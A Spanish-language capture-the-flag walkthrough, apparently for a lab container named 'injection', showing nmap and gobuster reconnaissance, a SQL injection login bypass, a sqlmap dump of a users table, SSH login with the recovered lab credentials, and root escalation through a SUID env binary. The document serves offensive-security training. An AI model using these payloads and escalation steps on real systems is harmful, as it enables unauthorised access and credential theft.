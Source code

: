 
Desplegamos el contenedor:

```Bash
bash auto_deploy.sh injection.tar
```

![[Pasted image 20250129175253.png]]

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![[Pasted image 20250129180719.png]]

Hacemos Fuzzing:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![[Pasted image 20250129182251.png]]

Nos metemos en los directorios:

![[Pasted image 20250129182354.png]]

Metemos esta inyección en el usuario (el password lo que queramos).

```Bash
'or 1=1 -- -
```

![[Pasted image 20250129182930.png]]

![[Pasted image 20250129183019.png]]

Nos da usuario y contraseña
Dylan: KJSDFG789FGSDF78

Más formas de conseguirlo:

**Inyección sqlmap**

```Bash
sqlmap -u http://172.17.0.2/index.php --forms --dbs --batch
```

![[Pasted image 20250129183525.png]]

![[Pasted image 20250129183540.png]]

Ahora usamos el siguiente comando para acceder a ``register``:

```Bash
sqlmap -u http://172.17.0.2/index.php --forms -D register --tables --batch
```

![[Pasted image 20250129183601.png]]

![[Pasted image 20250129183616.png]]

Accedemos a ``users`` y listamos las columnas:

```Bash
sqlmap -u http://172.17.0.2/index.php --forms -D register -T users --columns --batch
```

![[Pasted image 20250129183659.png]]

![[Pasted image 20250129183713.png]]

Por último, listamos las dos columnas que hay: passwd y usernames, y tenemos credenciales.

```Bash
sqlmap -u http://172.17.0.2/index.php --forms -D register -T users -C passwd,username --dump --batch
```

![[Pasted image 20250129183736.png]]

![[Pasted image 20250129183748.png]]

Nos da usuario y contraseña
Dylan: KJSDFG789FGSDF78

Nos conectamos con SSH

```Bash
ssh dylan@172.17.0.2
```

![[Pasted image 20250129183951.png]]

Elevamos privilegios:

```Bash
sudo -l
```

![[Pasted image 20250129184025.png]]

```Bash
find / -perm -4000 2>/dev/null
```

![[Pasted image 20250129184114.png]]

```Bash
/usr/bin/env /bin/bash -p
```

![[Pasted image 20250129184315.png]]

```Bash
whoami
```

![[Pasted image 20250129184339.png]]